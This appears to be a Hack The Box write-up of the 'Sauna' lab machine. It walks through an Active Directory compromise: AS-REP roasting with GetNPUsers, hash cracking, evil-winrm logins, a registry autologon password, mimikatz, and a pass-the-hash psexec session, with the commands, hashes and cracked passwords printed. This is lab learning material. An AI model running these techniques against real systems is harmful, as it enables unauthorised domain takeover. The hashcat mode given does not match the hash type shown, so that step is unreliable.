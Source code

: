 ```yaml
---
title: Sauna HTB
date: '2020-07-19 20:55:00'
categories: ["htb"]
---
```



### User

After running nmap these ports are open:

```
Nmap scan report for EGOTISTICALBANK (10.10.10.175)
Host is up (0.17s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-28 03:32:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/27%Time=5E581939%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m00s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-28T03:34:31
|_  start_date: N/A

```

First I add the domain _EGOTISTICALBANK_ to /etc/hosts for later usage maybe. And the first thing I do is visiting the website. From the website after a bit of enumeration all I can get are a bunch of usernames from these pages:
- http://10.10.10.175/about.html
- http://10.10.10.175/single.html



Enumerating ldap port I get nothing more than the hostname which I already know.
Running enum4linux also does not give me much.
Also smbmap gives me nothing. After a bit of research I found out that companies use account username conventions. So maybe I can use some tools with these since I have a lot of ports which can allow me to specify a username without password at first.

I read about [Ad user naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/) and after I try to use the usernames against a impacket tool. The tool I use is caled GetNPUsers and it `Queries target domain for users with 'Do not require Kerberos
preauthentication' set and export their TGTs for cracking`. After a lot of trial and error I find the password of user beeing fsmith.

`/opt/impacket/examples/GetNPUsers.py  EGOTISTICALBANK/fsmith -dc-ip 10.10.10.175 -request`

```
Impacket v0.9.21.dev1+20200220.181330.03cbe6e8 - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate fsmith, getting its TGT
$krb5asrep$23$fsmith@EGOTISTICALBANK:fdb6fa679238059bc04549980ec57412$2414afe6424ecfa364ca858c8e8b4713374d1f25625add595a3a7386e4b4eccaf2aa5c1edfd59e0026222d000bed930fdb07e9500540960aa75348509adadc8def409b724dc5958b5dc4e9910c33331ef742cfd73dc405a6c6419ce6c20196c3cf90380f3c88af0b310b1b53b9f9b9c34022b9e3d33a0df0acb0fc37322aca41c6493e8d4e45aa941b5ffdebd89dd79b755ac5514dde9e08d5c381b5e9ea99cbc2ed1bc3b9703c512dac781794030804d252e723ad640cc9ca4b5ef543a9d05e4c2d6689e4414b888b5c9e6e9b6f575f837c0d8636a82f2602cf332be121d36cf259abf8d3e24b5f6d9ef3833bfcd9c502370e330c3c90cd90

```

This would give me the users [TGT](https://docs.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets) which I can crack .

`hashcat -m 13100 crackme.hash /usr/share/wordlists/rockyou.txt`

And I found the password *Thestrokes23*

I do a full port scanning with verbose on nmap to check if windows remote management is enabled. After finding it is enabled I use evil-winrm and connect to it by providing the username fsmith and the cracked password. 


### root

From there I run Winpeas or any other enumeration script and find a hidden password inside this registry `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

The password belongs to user svc_loanmgr and the password is Moneymakestheworldgoround!

I login again by using evil-winrm 

I generate a reverse shell by using metasploit and then run it. This would give me cmd shell. I then upload mimikatz and get Administrator ntlm hash, which then I use it with psexec and get shell as nt authority\system.

psexec.py administrator@10.10.10.175 -hashes :d9485863c1e9e05851aa40cbb4ab9dff
Impacket v0.9.21.dev1+20200220.181330.03cbe6e8 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file TkxHqRZj.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service Pntp on 10.10.10.175.....
[*] Starting service Pntp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

-----------------------------------------------------------------------------------------------


ReadMore: 
[Active Directory Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-mimikatz)